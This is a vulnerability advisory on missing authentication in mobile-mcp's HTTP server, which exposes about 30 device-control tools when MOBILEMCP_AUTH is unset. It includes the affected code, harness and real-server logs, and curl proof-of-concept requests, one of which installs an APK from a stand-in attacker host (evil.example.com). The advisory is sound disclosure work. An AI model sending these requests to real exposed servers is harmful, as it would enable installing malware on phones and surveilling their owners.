


# Mobile-MCP Streamable HTTP Server Missing Authentication Exposes Full Mobile-Device Control

### Summary

mobile-mcp (mobile-next/mobile-mcp, `main` branch) was confirmed vulnerable to missing authentication (CWE-306) in its Streamable HTTP server mode. When the `MOBILEMCP_AUTH` environment variable is not set, the server only prints a console warning and registers no authentication middleware at all — every HTTP request reaches the MCP tool surface at `POST /mcp`. The official README recommends deploying with `--listen 0.0.0.0:3000`; combined with the unset-variable default, this exposes approximately 30 device-control tools (app install/uninstall, URL opening, key injection, clipboard access, location spoofing, screenshots, screen recording, and more) to any network-reachable attacker, with no credentials.

The vulnerability was dynamically verified with a harness on 2026-10-05 replicating the exact middleware logic of src/index.ts:33-47: with `MOBILEMCP_AUTH` unset, both a request with no Authorization header and one with an arbitrary forged Bearer token reached the MCP handler and invoked `mobile_install_app` (HTTP 200); control scenarios with the variable set correctly returned 401 for missing/wrong tokens and passed the correct token — proving the defect is the absence of authentication enforcement, not a flaw in the token check itself.

### Details

The entire authentication decision (src/index.ts:33-47):

```ts
const authToken = process.env.MOBILEMCP_AUTH;
if (!authToken) {
    error("WARNING: MOBILEMCP_AUTH is not set. The HTTP server will accept unauthenticated connections. Set MOBILEMCP_AUTH to require Bearer token authentication.");
}

if (authToken) {
    app.use((req, res, next) => {
        if (req.headers.authorization !== `Bearer ${authToken}`) {
            res.status(401).json({ error: "Unauthorized" });
            return;
        }
        next();
    });
}
// ...
app.post("/mcp", (req: Request, res: Response) => {
    void node(req, res, req.body);
});
```

When the variable is unset, the bearer middleware is never installed and `POST /mcp` (lines 59-61) is reachable by anyone. src/server.ts registers the full tool set — `mobile_list_available_devices`, `mobile_install_app`, `mobile_uninstall_app`, `mobile_open_url`, `mobile_type_keys`, `mobile_clipboard`, `mobile_set_location`, `mobile_take_screenshot`, `mobile_start_screen_recording`, and more.

Aggravating context confirmed in the repository:

- README.md:417 recommends remote deployment: `mobile-mcp --listen 0.0.0.0:3000`.
- README.md:434 acknowledges in plain text that connections are accepted unauthenticated when the variable is unset — documenting the exposure rather than preventing it.
- Mitigating defaults: the bind host defaults to `localhost` (line 125), and localhost binding disables the Host-header DNS-rebinding protection (lines 16-17, README.md:424). The vulnerability therefore manifests fully when users follow the documented remote deployment without setting `MOBILEMCP_AUTH`.

This is CWE-306: Missing Authentication for Critical Function.

### PoC

#### Single request against a remotely deployed instance

```bash
curl -X POST http://TARGET:3000/mcp \
  -H 'Content-Type: application/json' \
  -d '{"jsonrpc":"2.0","id":1,"method":"tools/call","params":{"name":"mobile_list_available_devices","arguments":{}}}'
```

No `Authorization` header (or any garbage bearer value) is needed. A returned device list confirms the exposure. From there the attacker calls any of the ~30 tools, for example installing an attacker APK:

```bash
curl -X POST http://TARGET:3000/mcp \
  -H 'Content-Type: application/json' \
  -d '{"jsonrpc":"2.0","id":2,"method":"tools/call","params":{"name":"mobile_install_app","arguments":{"deviceType":"android","appPath":"https://evil.example.com/payload.apk"}}}'
```

#### Harness verification (Verified 2026-10-05)

```
=== SCENARIO A: default deployment (MOBILEMCP_AUTH unset) — no auth header ===
[LOG] WARNING: MOBILEMCP_AUTH is not set. The HTTP server will accept unauthenticated connections.
[DETECTED] MCP /mcp handler reached - processing tool call: mobile_install_app
[VULN] Unauthenticated request reached MCP handler (HTTP 200) - any request processed

=== SCENARIO B: default deployment — arbitrary forged Bearer token ===
[DETECTED] MCP /mcp handler reached — processed identically (HTTP 200)

=== SCENARIOS C/D (token set, missing/wrong token) → 401; E (correct token) → 200 ===
[VULN] FINAL: Confirmed - when MOBILEMCP_AUTH is unset, ALL requests (even with garbage tokens)
       reach the full MCP tool surface. Only a console warning is emitted, no auth enforcement exists.
       On 0.0.0.0 binding this exposes ~30 device-control tools to any network-reachable attacker.
```



### Real-Environment Verification (2026-10-06)

Re-verified against **real mobile-mcp** (source @ main, v0.0.1, built and run with `--listen 127.0.0.1:31200`):

```
$ node lib/index.js --listen 127.0.0.1:31200
WARNING: MOBILEMCP_AUTH is not set. The HTTP server will accept unauthenticated
connections. Set MOBILEMCP_AUTH to require Bearer token authentication.
mobile-mcp 0.0.1 streamable http server listening on http://127.0.0.1:31200/mcp

$ curl -s -X POST http://127.0.0.1:31200/mcp -H 'Content-Type: application/json'     -H 'Accept: application/json, text/event-stream'     -d '{"jsonrpc":"2.0","id":2,"method":"tools/call",
         "params":{"name":"mobile_list_available_devices","arguments":{}}}'
event: message
data: {"result":{"content":[{"type":"text","text":"{\"devices\":[],...}"}]},"jsonrpc":"2.0","id":2}
```

A real `tools/call` executed and returned a real tool result with **no Authorization header** — the full MCP device-control tool surface (screenshots, taps, input, shell on attached devices) is exposed to any unauthenticated network peer by default. Note: current main adds an **opt-in** `MOBILEMCP_AUTH` bearer token; the default deployment posture remains unauthenticated, so the finding and remediation guidance stand.



## Impact

An unauthenticated network attacker gains complete control of every mobile device connected to the exposed mobile-mcp server: installing and uninstalling applications (including malware), opening arbitrary URLs/deep links, injecting keystrokes and UI interactions, reading and writing the clipboard (capturing copied passwords and tokens), spoofing GPS location, capturing screenshots, and recording the screen — full surveillance and compromise of the attached phones (Android and iOS, physical and emulator/simulator).

The exposure requires only the documented remote deployment (`--listen 0.0.0.0:3000`) with the environment variable unset — the default state. The console warning does not constitute enforcement and is invisible to operators running the service headless. Verified on the `main` branch; the transport is the standard MCP Streamable HTTP JSON-RPC interface. Fixed versions: none confirmed at reporting time.
